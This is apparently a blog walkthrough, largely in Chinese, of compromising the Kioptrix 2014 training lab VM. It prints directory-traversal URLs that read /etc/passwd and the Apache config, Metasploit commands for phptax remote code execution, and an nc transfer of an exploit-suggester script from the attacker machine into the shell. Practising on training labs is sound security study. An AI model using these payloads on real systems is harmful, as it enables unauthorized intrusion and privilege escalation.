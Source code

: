 ```yaml
---
title: Kioptrix 2014
categories:
- training
tags:
- training
---
```

# Kioptrix 2014

2:07 开始
http://192.168.67.129/

```
22/tcp   closed   ssh
80/tcp   filtered http
8080/tcp open     http-proxy
```
## web
2:28 web目录扫描，爬行

查看源码，发现一个地址pChart2.1.3/index.php

```
searchsploit pchart
searchsploit -m exploits/php/webapps/31173.txt
leafpad 311tab补全命令
```
exp提示有目录遍历漏洞和反射型xss

http://192.168.67.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

查看apache配置文件
```
http://192.168.67.129/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/10.PNG)
经过检查得知，修改user-agent头，可以访问8080端口。

http://192.168.67.129:8080/phptax/

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/11.PNG)

找到phptax 远程代码执行，拥有exp
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/12.PNG)

```
msfconsole
search phptax
use 0
set RHOSTS 192.168.67.129
set RPORT 8080
run
```
获得一个www权限的shell

## privelege

ctrl + z 退出session，记住session编号。

```
search local_exploit
use 0 
show options
set sessions 1
run
[*] 192.168.67.129 - Collecting local exploits for cmd/unix...
[*] 192.168.67.129 - 7 exploit checks are being tried...
[*] Post module execution completed
失败
```
没有python、php、wget、curl，但是有nc，gcc

---

上传检查脚本

kali: `nc -lnvp 80 < linux-exploit-suggester.sh `
shell: nc kali'sIP 80 > linux.sh
运行后还是失败，猜测只有bash才能运行linux-exploit-suggester.sh，而得到的shell类型为sh

---

searchsploit freebsd 9
上传对应的内核漏洞exp

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-09-04/13.PNG)

4:50结束，其中神游发呆做菜聊天占了绝大部分时间ORZ


